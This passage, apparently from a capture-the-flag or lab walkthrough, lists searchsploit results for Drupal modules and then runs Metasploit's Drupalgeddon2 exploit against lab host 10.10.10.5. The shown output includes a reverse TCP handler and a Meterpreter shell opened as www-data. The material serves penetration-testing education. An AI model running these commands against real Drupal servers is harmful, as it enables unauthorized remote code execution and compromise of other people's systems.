 ```
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upl | exploits/php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio F | exploits/php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)           | exploits/php/remote/40130.rb
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure           | exploits/php/webapps/44501.txt
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have lots to choose from, but Drupalgeddon looks very promising. Let's check Metasploit for an easy win.

```
msf5 > search drupalgeddon

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_drupalgeddon2  2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection


msf5 > use exploit/unix/webapp/drupal_drupalgeddon2
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)


msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.10.5
RHOSTS => 10.10.10.5
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.10.10.6:4444 
[*] Sending stage (38288 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.10.6:4444 -> 10.10.10.5:52137) at 2020-08-11 16:00:57 -0400

meterpreter > getuid
Server username: www-data (33)
```